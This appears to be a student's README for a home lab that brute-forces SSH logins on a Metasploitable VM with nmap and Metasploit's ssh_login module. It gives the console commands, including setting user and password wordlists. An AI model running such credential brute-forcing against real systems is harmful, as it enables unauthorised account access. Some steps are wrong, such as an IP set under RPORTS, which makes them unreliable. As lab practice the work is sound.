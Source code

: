 ##### Bruteforce-demo

##### _This hands on lab was walk on to display my current knowledge and put it into practical by stimulating a real word brute force attack and understanding how it works from a hackers point of view. As a pen tester expliotation is the next step after reconssinace and information garthering._

---

##### Tools Used
- Nmap
- Kali
- Metaspliotable OS
- msfconsole
---

##### Steps

##### 1. install metaspliotable on your kali

```bash
sudo apt update
sudo apt install metasploit-framework -y
```
---

##### 2. Access msfconsole

```bash
msfconsole
```
---

##### 3. Run basic nmap command to view open ports

```bash
nmap 192.168.1.4
```
My port 22/tcp (ssh) is opened so we would be exploiting that.

---

##### 4. Access scan ssh on msfconsole

```bash
msf > search ssh
```
---

##### 5. Access the auxiliary Scanner for ssh

```bash
msf > use auxiliary/scanner/ssh/ssh_login
```
---

##### 6. Search Options to understand the requirements and set them up

```bash
msf > show options
```
---

##### 7. Set the PASS_FILE, USER_FILE, RHOSTS, BRUTEFORCE_SPEED AND VERBOSE, as communicated under options

```bash
msf > set RPORTS 192.168.1.4
msf > set VERBOSE true
msf > set USER_FILE "file path/text file"
msf > set PASS_FILE "file path/text file"
```
#### Then run

```bash
msf > run
```
---

